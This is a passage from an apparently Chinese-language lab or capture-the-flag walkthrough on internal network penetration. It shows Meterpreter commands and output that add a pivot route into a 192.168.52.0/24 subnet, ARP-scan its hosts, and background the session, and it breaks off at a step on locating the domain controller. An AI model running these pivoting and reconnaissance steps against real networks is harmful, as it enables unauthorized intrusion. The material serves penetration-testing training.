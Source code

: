 ## 内网渗透

添加路由

```
meterpreter > run autoroute -s 192.168.52.0 255.255.255.0

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 192.168.52.0/255.255.255.0...
[+] Added route to 192.168.52.0/255.255.255.0 via 192.168.220.138
[*] Use the -p option to list all active routes
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.52.0       255.255.255.0      Session 2

```



### ARP扫内网主机

```
meterpreter > run post/windows/gather/arp_scanner rhosts=192.168.52.0/24

[*] Running module against STU1
[*] ARP Scanning 192.168.52.0/24
[+]     IP: 192.168.52.138 MAC 00:0c:29:c1:33:d6 (VMware, Inc.)
[+]     IP: 192.168.52.143 MAC 00:0c:29:bd:35:01 (VMware, Inc.)
[+]     IP: 192.168.52.141 MAC 00:0c:29:1c:44:8e (VMware, Inc.)
[+]     IP: 192.168.52.255 MAC 00:0c:29:bd:35:01 (VMware, Inc.)
```



暂时将handler隐藏到后台

```
meterpreter > background 
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > back
```



### 判断域控

法一：上传nbtscan，扫子网
